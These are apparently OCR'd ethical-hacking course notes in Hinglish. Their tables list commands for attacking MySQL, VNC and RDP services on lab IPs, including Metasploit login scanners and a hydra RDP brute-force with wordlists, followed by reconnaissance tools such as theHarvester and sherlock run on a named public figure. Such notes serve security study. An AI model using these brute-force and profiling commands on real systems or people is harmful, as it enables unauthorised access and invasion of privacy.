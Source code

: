 | nmap -p 3306 --script vuln 192.168.70.129   |  |
| msfconsole  |  |
| search mysql scanner login | set rhost ,userfile |
| mysql -u root -h 192.168.70.129 | show database, |
| —————————————————————— | ————————————————————————————————— |
| 10] VNC (5900) |  |
| msfconsole |  |
| search vnc 3.3 |  |
| use auxiliary/scanner/vnc/vnc_login |  |
| run kerne ke baad password mil jayega to hum nich | e wala command dal ke password dalege aur enter krege. |
| vncviewer <target ip> | target .ip |
| —————————————————————— | ————————————————————————————————— |
| 11] RDP (3389) |  |
| nmap -sC -sV  192.168.128.18 |  |
| <target ip> open RDP |  |
| rdesktop  <Target ip> | windows machine open hoga. username and password puuchega. |
| hydra -L /usr/share/wordlists/user.txt  -P  /usr/share/wordlists/passwords.txt  <Target ip> rdp | brute force rdp port using hydra |
|  |  |
|  |  |
|  |  |

# Tools Uses and Explanesion

| $ theHarvester -h                                                                 $ theHarvester -d [dsgroup.com](http://dsgroup.com/) -l 300 -b all                       |  Iska use domain se judi public information jaise email addresses, subdomains, IP addresses, aur employee details collect karne ke liye kiya jata hai,  |  |
| --- | --- | --- |
| https://www.netcraft.com/ | provide information about a target organization; for example, infrastructure details, physical location, employee details, Moreover, groups, forums, and blogs ,public network information, system information, and personal information.  |  |
| https://dnsdumpster.com/ | ek free online tool hai jo kisi domain ke liye **DNS records, subdomains, hostnames, IP addresses, aur network mapping** find karta hai. |  |
| $  **sherlock "Elon Musk"** | **Gather Personal Information from Various Social Networking Sites using Sherlock** |  |
| https://whois.domaintools.com/ | **domain owner ka naam, email, phone number (agar public ho), registrar, aur registration/expiry dates** hoti hain.
Yeh tool aapko **DNS records, domain history, aur related domains** ki bhi info deta hai for deeper reconnaissance. |  |
| http://www.kloth.net/services/nslookup.php | tool se aap kisi domain ka **DNS record** (like A, MX, NS, TXT, CNAME) query kar sakte ho.Yeh tool batata hai ki domain ka **IP address kya hai, mail servers kaunse hain, aur DNS servers kaunse use ho rahe hain.** |  |
| $ **tracert [www.certifiedhacker.com](http://www.certifiedhacker.com)                     $ traceroute www.certifiedhacker.com** | **Perform Network Tracerouting in Windows and Linux Machines** |  |
| https://mxtoolbox.com/MXLookup.aspx |  |  |
| https://www.iptrackeronline.com/email-header-analysis/ |  |  |
| **2] Scanning Networks** |  |  |
| **$ nmap --script smb-os-discovery.nse [Target IP Address]** | determine the OS, computer name, domain, workgroup, and current time over the SMB protocol  |  |
| Global Network Inventory   | Enumerate Information using Global Network Inventory   (windows 11 tool)   open —>click I Agree  —> next —> Single Address Scan —→ name :- target IP —> username :- Administrator , password :- Pa$$w0rd —> next. —> click both option —> next —> all address  |  |
| 3] **Vulnerability Analysis** |  |  |
| **1 ] https://cwe.mitre.org/** | **Perform Vulnerability Research in Common Weakness Enumeration (CWE)** |  |